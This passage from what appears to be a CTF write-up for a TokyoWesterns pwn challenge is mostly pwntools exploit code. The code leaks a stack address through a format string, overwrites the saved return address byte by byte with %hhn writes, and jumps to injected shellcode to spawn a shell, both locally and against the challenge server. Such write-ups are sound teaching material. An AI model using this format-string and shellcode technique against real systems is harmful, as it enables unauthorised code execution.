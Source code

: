 ```python=
index = 0
for write in writes[::-1]:
    overwrite_payload = "%"+str(int(write,16)).rjust(3,"0")+"x"
    overwrite_payload += "%8$hhnzzzzz"
    overwrite_payload += p64(saved_rip+index)
    io.sendlineafter("> ",overwrite_payload)
    index+=1
io.sendlineafter("> ","q")
io.interactive()
```

The output shows that a shell was spawned.

![](https://i.imgur.com/1gqfetm.png)

### Remote Exploit

For the remote exploit we just replace the process function with the remote function, passing in the host and port.
```python=
from pwn import *
import re
context.arch = "amd64"

io = remote("pwn02.chal.ctf.westerns.tokyo",18247)

shellcode = "A"*40+asm(shellcraft.amd64.linux.sh())
io.sendlineafter("> ",shellcode)

leak_payload = "%p"
io.sendlineafter("> ",leak_payload)
leak = int(io.readline().strip(),16)
print "Address of input:",hex(leak)
shellcode = leak+0x28
print "Address of shellcode:",hex(shellcode)
saved_rip = leak+0x108
print "Address of saved rip", hex(saved_rip)

writes = re.findall(".{2}",hex(shellcode))[1::]
index = 0
for write in writes[::-1]:
    overwrite_payload = "%"+str(int(write,16)).rjust(3,"0")+"x"
    overwrite_payload += "%8$hhnzzzzz"
    overwrite_payload += p64(saved_rip+index)
    io.sendlineafter("> ",overwrite_payload)
    index+=1
io.sendlineafter("> ","q")
io.interactive()
```
### Getting the Flag
![](https://i.imgur.com/4MfrstD.png)
